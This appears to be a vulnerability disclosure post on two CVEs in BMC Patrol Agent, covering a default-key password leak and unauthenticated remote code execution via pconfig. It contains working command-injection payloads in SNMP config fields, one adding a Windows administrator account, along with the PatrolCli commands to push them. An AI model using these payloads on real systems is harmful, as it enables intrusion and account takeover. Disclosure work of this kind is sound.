

Patrol's [default configuration](https://docs.bmc.com/docs/PATROLAgent/107/securing-patrol-agent-from-the-pconfig-clients-655597337.html) permits unauthenticated remote configuration access and modification:


If your organisation uses this default setting, it should be changed ASAP as this makes the agent subject to two unauthenticated vulnerabilities resulting in remote code execution.

CVE-2023-34258:Remote secrets leak using Patrol's pconfig (<22.1.00)
--------------------------------------------------------------------

The configuration is remotely queried using the ```pconfig``` binary. The configuration contains the encrypted password of the local Patrol user:


All Patrol instances before update 22.1.00 [use a default encryption key](https://gist.github.com/gquere/045638b9959f4b3e119ea01d8d6ff856).

Thus the password of the Patrol account can be decrypted:


A valid Patrol account can be used to authenticate to the service and remotely execute code:


This vulnerability is mitigated in versions >=22.1.00 since the encryption key has been diversified.


CVE-2023-34257:Remote code excution using Patrol's pconfig
----------------------------------------------------------

The agent's configuration can be remotely updated using the ```pconfig``` binary.

Remote code execution can be achieved by injecting commands in the masterAgentName field that is used to start the SNMP service.

For Windows:
```
"/snmp/masterAgentName" = { REPLACE = "cmd /c \"net user test_lol sup3rPASS! /add && net localgroup Administrators test_lol /add\" &&" },
"/snmp/masterAgentDir" = { REPLACE="bin/../../../Windows/system32/" },
```

Do note that the ```masterAgentDir``` path is relative and depends on Patrol's installation path. Usually this is under C:\BMC.

On Linux systems (according to my old notes, YMMV) it's a different parameter that leads to code execution:
```
"/snmp/masterAgentStartLine" = { REPLACE="/usr/bin/touch /tmp/snmp ; /usr/bin/touch /tmp/snmp2 & #" },
```

The configuration is pushed using the ```+Reload``` directive:
```
PatrolCli -host xxx +Reload /tmp/my_config
```

To maximize chances of success, only the new SNMP configuration should be pushed. Remotely overwriting other parts of the configuration may result in an **unrecoverable** remote DoS.

The agent needs to be remotely restarted for the modification to take effect:
```
PatrolCli -host xxx +RESTART
```

Editor response
---------------
According to the editor these are not vulnerabilities: "These are not vulnerabilities for us as we have provided the option to implement the authentication".

Timeline
--------
2021: Vulnerabilities discovered  
2023-01: Editor contacted  
2023-02: Editor ACK  
2023-05: FD
